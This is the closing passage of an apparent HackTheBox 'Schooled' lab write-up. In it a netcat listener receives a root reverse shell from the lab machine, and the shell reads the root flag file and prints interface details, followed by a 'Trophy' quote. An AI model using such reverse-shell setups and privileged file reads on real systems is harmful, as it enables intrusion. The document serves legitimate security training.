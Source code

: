 Obtained the high privileged reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.234] 64025
# whoami && hostname && cat /root/root.txt && ifconfig
root
Schooled
230dfbea6a985be3b7eecd18d1238861
vmx0: flags=8863<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
        options=4e403bb<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,JUMBO_MTU,VLAN_HWCSUM,TSO4,TSO6,VLAN_HWTSO,RXCSUM_IPV6,TXCSUM_IPV6,NOMAP>
        ether 00:50:56:b9:8b:31
        inet 10.10.10.234 netmask 0xffffff00 broadcast 10.10.10.255
        media: Ethernet autoselect
        status: active
        nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
        options=680003<RXCSUM,TXCSUM,LINKSTATE,RXCSUM_IPV6,TXCSUM_IPV6>
        inet6 ::1 prefixlen 128
        inet6 fe80::1%lo0 prefixlen 64 scopeid 0x2
        inet 127.0.0.1 netmask 0xff000000
        groups: lo
        nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
```

![Pasted image 20210511215900.png](../../zzz_res/attachments/Pasted_image_20210511215900.png)

# Trophy

>[!quote]
>The most powerful motivation is rejection.
>
>\- Anonymous
 